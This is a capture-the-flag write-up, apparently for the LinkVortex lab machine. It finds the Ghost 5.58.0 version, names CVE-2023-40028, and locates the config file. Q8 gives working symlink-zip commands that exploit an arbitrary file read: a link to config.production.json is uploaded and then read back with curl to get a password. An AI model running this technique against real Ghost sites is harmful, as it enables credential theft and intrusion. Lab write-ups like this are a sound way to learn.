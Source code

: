 ```
            const requestMock = nock('https://api.github.com')
<snip>
```
Q5: What version of Ghost running on LinkVortex?
- looking through files, found the version in Dockerfile.ghost
```
 cat Dockerfile.ghost 
FROM ghost:5.58.0

# Copy the config
COPY config.production.json /var/lib/ghost/config.production.json

# Prevent installing packages
RUN rm -rf /var/lib/apt/lists/* /etc/apt/sources.list* /usr/bin/apt-get /usr/bin/apt /usr/bin/dpkg /usr/sbin/dpkg /usr/bin/dpkg-deb /usr/sbin/dpkg-deb

# Wait for the db to be ready first
COPY wait-for-it.sh /var/lib/ghost/wait-for-it.sh
COPY entry.sh /entry.sh
RUN chmod +x /var/lib/ghost/wait-for-it.sh
RUN chmod +x /entry.sh

ENTRYPOINT ["/entry.sh"]
CMD ["node", "current/index.js"]
```
Q6: What is the 2023 CVE ID for an authenticated file read vulnerability in this version of Ghost?
- search for Ghost 5.58.0 exploit, found: https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028


Q7: What is the full path of the Ghost configuration file that contains an exposed password?
 - according to this blog, Ghost stores information about itself in a file called `config.production.json` : `https://blog.vkhitrin.com/understanding-self-hosted-ghost-data-structure/`
 - wasnt straight forward in locating the file, the default location is at `/var/www/ghost` however thats not the case for target config
 - i found another POC for the vulnerability and found that the file is located at a custom location `/var/lib/ghost/config.production.json`
 - and found a feature request about custom location for json files on github: https://github.com/docker-library/ghost/issues/73



Q8: What is the bob user's password on LinkVortex?
- according to the POC: https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028
- the POC is trying to upload a zip file with a linked file to the file attacker wants to read
- need to figure out where to upload and where to fetch
- tried to upload a new profile picture and found the image storage location at http://linkvortex.htb/content/images/2025/06/Cat03-1.jpg
- looking around the site and there is a location to upload a zipped file http://linkvortex.htb/ghost/#/settings/labs
- tried to work with the POC however no luck then tried uploading manually 
- example on generating the payload
```
$: mkdir mkdir -p exploit/content/images/
$: ln -s /var/lib/ghost/config.production.json exploit/content/images/cat02.png
$: zip -r -y exploit.zip exploit/
```
- then upload the exploit to http://linkvortex.htb/ghost/#/settings/labs/import/
- fetch the file from remote
```
$ curl http://linkvortex.htb/content/images/Cat02.jpg 
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
```
